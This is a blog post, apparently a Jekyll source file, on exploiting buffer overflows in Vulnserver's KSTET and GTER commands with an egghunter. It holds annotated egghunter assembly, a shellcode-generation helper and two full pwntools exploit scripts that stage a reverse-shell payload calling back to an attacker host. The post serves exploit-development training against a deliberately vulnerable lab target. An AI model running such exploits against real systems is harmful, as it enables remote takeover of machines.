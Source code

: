 ```yaml
---
layout: post
title: Vulnserver&colon; Egghunter in GTER and KSTET after buffer overflow
---
```

In this post we are going to exploit a buffer overflow in both commands, GTER and KSTET, since the exploits are very similar I'm covering them both in the same post. We are going to use a new technique called an egghunter that will allow us to exploit targets that don't give us enough length in the initial payload to put our shellcode. If you see some differences compared with the previous exploits like the b before a string it's because I switched to using Python3 to script my exploits.

# Analyzing the crash

## KSTET command
First let's analyze the KSTET command, if we look at the stack after the crash we should notice that there is not much space to work with. We have around 60 bytes before overwriting EIP and only 20 after it, that's clearly not enough for our shellcode that takes more than 300 bytes. 

![]({{ site.baseurl }}/images/4/immunitydbg1.PNG)

The first solution that comes to mind is using an egghunter and now you should be asking yourself what's that and the explanation is pretty simple. An egghunter is a very small shellcode that goes through all the memory of the program looking for a tag, 4 bytes of our choosing repeated two times, and once it finds that tag it jumps to the code after it.

Below we can find an egghunter shellcode obtained from a post by Security Sift in the following [link](http://www.securitysift.com/windows-exploit-development-part-5-locating-shellcode-egghunting/). If you want a better explanation of how it works go to that post, a good understanding of x86 Assembly helps a lot to comprehend how it works.

```nasm
entry:
loop_inc_page:
     or    dx, 0x0fff       // loop through memory pages by adding 4095 decimal or PAGE_SIZE-1 to edx
 
 loop_inc_one:
     inc   edx              // loop through addresses in the memory page one by one
 
 make_syscall:
     push  edx              // push edx value (current address) onto the stack to save for future reference
     push  0x43             // push 0x43 (the Syscall ID for NtDisplayString) onto the stack
     pop   eax              // pop 0x43 into eax to use as the parameter to syscall
     int   0x2e             // issue the interrupt to call NtDisplayString kernel function
 
 check_is_valid:
     cmp   al, 0x05         // compare low order byte of eax to 0x5 (5 = access violation)
     pop   edx              // restore edx from the stack
     jz    loop_inc_page    // if the zf flag was set by cmp instruction there was an access violation
                            // and the address was invalid so jmp back to loop_inc_page
 is_egg:
     mov   eax, 0x444e5750  // if the address was valid, move the egg into eax for comparison
     mov   edi, edx         // set edi to the current address pointer in edx for use in the scasd instruction
     scasd                  // compares value in eax to dword value addressed by edi (current address pointer)
                            // and sets EFLAGS register accordingly; after scasd comparison, 
                            // EDI is automatically incremented by 4 if DF flag is 0 or decremented if flag is 1 
     jnz   loop_inc_one     // egg not found? jump back to loop_inc_one
     scasd                  // first 4 bytes of egg found; compare the dword in edi to eax again
                            // (remember scasd automatically advanced by 4)
     jnz   loop_inc_one     // only the first half of the egg was found; jump back to loop_inc_one  
 
 found:
     jmp   edi              //egg found!; thanks to scasd, edi now points to shellcode
```

Now that we have our egghunter shellcode we should look for a way to send our reverse shell shellcode into the memory of the program. One possibility is simply sending the shellcode as part of another command, so let's test that with the following python code.

```python
# Important to use different sockets because socket re-use truncated our shellcode
io1 = remote(ip,port)
io1.readline()
io1.sendline(b"KSTAN "+ "GschGsch" + b"A"*350)
io1.close() # Close the socket so we use a different socket for our egghunter
```

To check if it worked we can go to the Memory map window in Immunity Debugger and search for our tag "GschGsch", after trial and error we found that it worked with the KSTAN command giving us more than enough size to put our reverse shell shellcode.

![]({{ site.baseurl }}/images/4/immunitydbg2.PNG)

So now we have all the pieces we needed to exploit the KSTET command.

## GTER command

For the GTER command we don't need much more work, if we look at the stack after the crash we see that we have around 150 bytes before overwriting EIP and 20 bytes after. Again that's not enough space for our shellcode so we are going to use the same egghunter technique as in KSTET, the only difference is going to be the offset when overwriting EIP.

![]({{ site.baseurl }}/images/4/immunitydbg3.PNG)

So now let's jump into exploiting the commands.

# Exploiting

## KSTET command

First of all we need to generate the shellcode from the assembly of our egghunter, to do that we are going to use the [NASM](https://www.nasm.us/) and a simple python script I created. If we give the name of the file containing the x86 Assembly code to our python script it will print the shellcode. As a note I modified the egghunter code so that it looks for the tag "GschGsch" instead of "PWNDPWND".

```python
import os
import sys
if len(sys.argv) != 2 :
    print "Usage: "+sys.argv[0]+" <file.asm>."
    sys.exit()

cmd = "nasm -fbin -o shellcode.bin " +sys.argv[1]
exit_status = os.system(cmd)
if exit_status != 0:
    print "[!] Error executing nasm."
    sys.exit()

with open("shellcode.bin") as f: 
    code = f.read()
    print '\\x'+'\\x'.join(x.encode('hex') for x in code)

os.remove("shellcode.bin")
```

Now that we have the egghunter shellcode we can see that it's 32 bytes long so we don't have enough space after EIP to put it there. A simply solution is to put a short shellcode that jumps to the 60 bytes we had before our EIP and put our egghunter there. We can use the assembly instruction "jmp -50" or "\xeb\xcc" to do exactly that, if we put it all together we obtain the following script.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "10.0.2.15"
port = 9999

cmd = "KSTET /.:/"
# cyclic -l 0x61616174
offset_eip = 76
eip = 0x625011af # Address of instruction we want to run (jmp esp).

# Here we put the shellcode we want to execute.
offset_sc = offset_eip + 4
shellcode = b"\xeb\xcc" # jmp -50

# Here we put our egghunter (TAG="Gsch").
offset_egg = offset_eip - 50
egg = (b"\x90"*8 + # less padding because stack was overwritting egghunter from below
b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x43\x58\xcd\x2e\x3c\x05\x5a"
b"\x74\xef\xb8\x47\x73\x63\x68\x89\xd7\xaf\x75\xea\xaf\x75\xe7"
b"\xff\xe7")

# Here we add our shellcode and prepend the tag so that egghunter finds it.
# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.6 EXITFUNC=thread -f c -b "\x00\x0a"
tag_shellcode = (b"GschGsch" + b"\xdb\xc1\xbe\xd6...")

# Create our payload.
payload = fit({
    0:cmd,
    offset_egg:egg,
    offset_eip:eip,
    offset_sc:shellcode,
    },length=200)

# Important to use different sockets because socket re-use truncated our shellcode
io1 = remote(ip,port)
io1.readline()
io1.sendline(b"KSTAN "+ tag_shellcode)
io1.close()

io = remote(ip,port)
io.readline()
io.sendline(payload)
```

The only thing left is to listen on port 4444 with netcat, execute our script and get our shell. And it works like a charm!

## GTER command

For this commands the steps are exactly the same as for KSTET, we also only have 20 bytes after EIP but we have around 150 bytes before it so we can use a "jmp -100" or "\xeb\x9a" to get to our egghunter. Instead of repeating myself I'm simply going to post how the script looks.

```python
from pwn import *

# IP and port of the target (Vulnserver).
ip = "10.0.2.15"
port = 9999

cmd= b"GTER "
# cyclic -l 0x6261616F
offset_eip = 156 
eip = 0x625011af # Address of instruction we want to run (jmp esp).

# Here we put the shellcode we want to execute.
offset_sc1 = offset_eip + 4
sc1 = b"\xEB\x9A" # jmp -100

# Here we put our egghunter (TAG="Gsch").
offset_egg = offset_eip - 100
egg = (b"\x90"*16 +
b"\x66\x81\xca\xff\x0f\x42\x52\x6a\x43\x58\xcd\x2e\x3c\x05\x5a"
b"\x74\xef\xb8\x47\x73\x63\x68\x89\xd7\xaf\x75\xea\xaf\x75\xe7"
b"\xff\xe7")

# Here we add our shellcode and prepend the tag so that egghunter finds it.
# msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.6 EXITFUNC=thread -f c -b "\x00\x0a"
sc2 = (b"GschGsch" + b"\xdb\xc1\xbe\xd6...")

# Create our payload.
payload = fit({
    0:cmd,
    offset_egg:egg,
    offset_eip:eip,
    offset_sc1:sc1,
    },length=200)

# Important to use different sockets because socket re-use truncated our shellcode
io1 = remote(ip,port)
io1.readline()
io1.sendline(b"KSTAN "+ sc2)
io1.close()

io2 = remote(ip,port)
io2.readline()
io2.sendline(payload)
```

And that's it folks, we exploited both commands with almost idential scripts.

See you in the next post :).